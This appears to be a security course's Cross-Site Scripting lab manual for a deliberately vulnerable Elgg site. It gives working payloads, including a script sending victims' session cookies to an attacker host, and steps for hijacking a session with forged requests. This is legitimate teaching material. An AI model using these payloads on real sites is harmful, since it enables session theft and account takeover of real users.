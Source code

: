 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

__Copyright © 2014 Wenliang Du, Syracuse University.
The development of this document is/was funded by the following grants from the US National Science
Foundation: No. 1303306 and 1318814. This lab was imported into the Labtainer framework by the Naval
Postgraduate School, Center for Cybersecurity and Cyber Operations under National Science Foundation
Award No. 1438893. Permission is granted to copy, distribute and/or modify this document under the terms
of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software
Foundation. A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.__

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + ' >');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Log in as another user (charlie for example)
- Open the Web Developer > Network Tool in your firefox browser.
- Now add Samy as a friend.  Look at the "GET" request. Note the elgg_ts and elgg_token. Also note that Samy's's user ID is 42. These are unique for each user.

- **Remove Samy as a friend.

- In the attacker's terminal, navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor featherpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
- Change the following lines:

```
String requestDetails = "&__elgg_ts=1599761839&__elgg_token=88d6c723d87b0aee53aa7b5ef0aaec1c";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
 ```
 ```
String cookies = "Elgg=cj1be6flek57vflghcdk2r2qb0";
 
```
- Save the file and close featherpad.

 **Note** Compile and run the java program using 
   
```
javac HTTPSimpleForge.java 
java HTTPSimpleForge
```


- The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. 
 
 - Check the friends that were added and note whether or note Samy was added.

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab xsite

```


